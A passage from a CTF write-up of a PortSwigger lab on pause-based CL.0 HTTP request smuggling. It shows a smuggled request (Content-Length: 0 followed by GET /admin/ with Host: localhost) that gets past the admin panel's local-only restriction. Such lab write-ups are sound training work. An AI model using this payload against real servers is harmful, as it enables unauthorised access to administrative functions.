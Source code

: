 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193813.png)

Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.

**To bypass the local restriction, we can try to add the `Host` header with value `localhost`:**
```http
Content-Length: 0

GET /admin/ HTTP/1.1
Host: localhost


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226192339.png)
